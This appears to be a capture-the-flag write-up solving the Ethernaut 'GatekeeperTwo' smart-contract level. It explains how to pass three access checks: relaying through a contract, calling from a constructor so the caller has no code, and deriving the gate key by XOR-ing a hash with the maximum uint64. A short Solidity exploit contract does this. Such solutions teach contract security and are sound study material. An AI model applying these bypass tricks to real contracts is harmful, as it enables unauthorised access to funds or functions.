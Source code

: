 #GatekeeperTwo

The first part is the same as previous telephone level where we just use a smart contract.

The second part requires us that the address contain 0 code, which means that we have to call
the function before it is deployed.

The third part is simple as long as we just take the hash and xor it with the max uint64 which
will give us our gate key. We pass this in and we complete the level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

contract GatekeeperPass {
    bool public success;
    constructor(address _gateKeeperAddress) {
        uint64 gateKey = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max;
        (bool _success, ) = _gateKeeperAddress.call(abi.encodeWithSignature("enter(bytes8)", bytes8(gateKey)));
        success = _success;
    }
}
```
